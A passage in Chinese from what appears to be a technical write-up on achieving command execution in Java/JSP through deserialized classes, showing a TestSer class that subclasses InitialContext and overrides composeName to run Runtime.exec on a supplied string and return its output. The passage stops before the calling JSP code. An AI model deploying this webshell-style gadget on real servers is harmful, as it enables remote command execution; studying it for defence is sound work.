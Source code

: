 **3.查看`ver.jsp`执行结果**

可以看到通过反序列化的类`TestRunTime`调用

![image-20191209154331182](../../images/image-20191209154331182.png)

#### 2. 使用系统类继承调用

由于很多原因，我们没办法再一个系统中定义一个我们自己的类，在这种情况下可以使用JVM中的类来继承

用于执行反序列化后的类，同样需要重写父类某一方法，并进行调用

```java
// TestSer.java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.io.IOException;
import java.io.InputStream;
import java.io.Serializable;

public class TestSer extends InitialContext implements Serializable {

   TestSer() throws NamingException {
      super(true);
   }

   @Override
   public String composeName(String str, String code) {
      StringBuilder stringBuffer = new StringBuilder();

      try {
         Process     process     = Runtime.getRuntime().exec(str);
         InputStream inputStream = process.getInputStream();
         int         chr         = 0;

         while ((chr = inputStream.read()) != -1) {
            stringBuffer.append((char) chr);
         }
      } catch (IOException ignored) {
      }

      return stringBuffer.toString();
   }

   // ......其他条件代码
}
```

调用执行的jsp代码
